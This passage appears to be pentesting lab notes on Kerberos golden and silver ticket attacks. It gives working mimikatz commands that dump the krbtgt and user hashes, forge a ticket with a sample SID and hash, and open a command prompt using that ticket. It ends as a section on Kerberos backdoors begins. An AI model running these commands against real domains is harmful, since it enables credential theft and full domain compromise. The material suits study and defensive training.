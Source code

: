 ```bash
> klist
```



### Golden/Silver Ticket Attacks w/ mimikatz

A silver ticket can  sometimes be better used in engagements rather than a golden ticket  because it is a little more stealth. The approach to creating one is the exact same. A silver ticket is limited to the service that is targeted whereas a golden ticket has access to any  Kerberos service.

#### Dump the krbtgt hash

```bash
> mimikatz.exe
privilege::debug
```

dump the hash as well as  the security identifier needed to create a Golden Ticket. To create a  silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService  account.

```bash
lsadump::lsa /inject /name:krbtgt
```

or `lsadump::lsa /patch` to dump hashes for users

#### Create a Golden/Silver Ticket

Creating a golden ticket. To create a silver ticket simply put a service NTLM hash into the krbtgt  slot, the sid of the service account into sid, and change the id to  1103.

```bash
Kerberos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<ticket> /id:<id>
```

<sid>: after Domain part, ex. S-1-5-21-849420856-2351964222-986696166

<ticket>:  * Primary NTLM, ex. 5508500012cc005cf7082a9a89ebdfdf

<id>: Ex. 500

#### Use the Golden/Silver Ticket to access other machines

open a new elevated command prompt with the given ticket in mimikatz.

```bash
misc::cmd
```

### Kerberos Backdoors w/ mimikatz

#### Preparing Mimikatz

```bash
> mimikatz.exe
privilege::debug
```
